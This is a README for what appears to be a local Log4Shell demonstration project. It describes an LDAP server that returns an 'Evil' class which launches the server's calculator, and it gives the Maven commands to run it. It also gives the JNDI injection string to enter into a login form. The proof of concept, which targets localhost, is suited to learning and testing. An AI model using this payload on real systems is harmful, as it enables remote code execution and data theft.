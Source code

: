# README

## Goal for this project
This project goal is to provide an example to test the Log4Shell vulnerability.

It includes a simple LDAP Server that will receive the jndi lookups and will return an Evil class that executes the calculator in the server.

The main point here is to show that if we are able to start the calculator in the server, we can execute almost anything, deleting files, uploading them to malicious destinations or even changing them for hacing purposes.

## Prerequisites
- JDK 17
  
## Steps
1. execute the ldap server
   
    `mvn exec:java -Dexec.mainClass="org.vilojona.demo.JettyServer"`
2. execute the http server for the login endpoint

    `mvn exec:java`
3. open the login page

    `http://localhost:8000/index.html`
4. enter any user including the lookup Log4J text 

    `${jndi:ldap://127.0.0.1:9999/Evil}`
5. submit the form
6. check that the calendar has been executed
 